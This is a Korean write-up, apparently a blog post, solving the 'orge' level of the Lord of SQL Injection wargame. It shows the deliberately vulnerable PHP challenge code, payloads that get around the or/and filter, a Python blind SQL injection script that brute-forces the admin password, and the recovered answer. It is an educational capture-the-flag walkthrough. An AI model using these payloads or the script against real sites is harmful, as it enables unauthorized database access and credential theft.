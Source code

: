```yaml
---
title: "[Lord of SQL Injection] LoS - orge 문제풀이"
date: 2018-07-26
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번 문제는 `orge` 이다.
이 전 문제인 `darkelf`와 Blind SQL Injection 이었던 `orc` 문제가 섞인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw=''
-------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

`or`와 `and` 문자를 사용할 수 없어 `or` 대신에 `||`, `and` 대신에 `&&`를 사용해야 한다.
또한 입력한 `pw`와 디비에 저장된 `pw`의 값이 같아야 하기 때문에 `Blind SQL Injection`으로 문제를 풀어야 한다.
그런데 첫 번째 쿼리와 두 번째 쿼리가 살짝 다르다.  

```php
$query1 = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"

$query2 = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"
```

첫 번째 쿼리에서는 `id='guest'`로 되어 있고 두 번째 쿼리에서는 `id='admin'`으로 되어 있다.
그런데 문제를 풀기 위한 조건은 `admin의 정확한 pw`를 알아내야 하는 것이므로, 첫 번째 쿼리를 통해 `admin`의 `pw`를 알아내고, 두 번째 쿼리를 통해 문제를 풀면 된다.
`admin`의 `pw`를 알아내기 위한 쿼리 스트링은 다음과 같다.  

```plain
?pw=1' || id='admin' && length(pw)=1#
```

그런데 `&&`와 `#`은 그냥 입력하면 안되고 `URL Encoding`을 해 넘겨주어야 한다.
즉, 수정하면 다음과 같다.  

```plain
?pw=1' || id='admin' %26%26 length(pw)=1%23
```

위의 쿼리 스트링을 토대로 `orc` 문제를 참고 해 아래와 같이 python 코드를 구현했다.  

```python
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orge_bad2f25db233a7542be75844e314e9f3.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id='admin' %26%26 length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id='admin' %26%26 substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행 시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 7B
[+] Found 3 : 7B7
[+] Found 4 : 7B75
[+] Found 5 : 7B751
[+] Found 6 : 7B751A
[+] Found 7 : 7B751AE
[+] Found 8 : 7B751AEC
[+] Found password :  7B751AEC
[+] End
```

이번에도 역시 `7B751AEC`에서 알파벳을 소문자로 바꿔주어야 문제가 풀렸다.  

```plain
?pw=7b751aec
```

위와 같이 입력하면 문제를 풀 수 있다.  

```php
-------------------------------------------------------------------------------------------
query : select id from prob_orge where id='guest' and pw='7b751aec'
-------------------------------------------------------------------------------------------

ORGE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
ORGE Clear!!
```
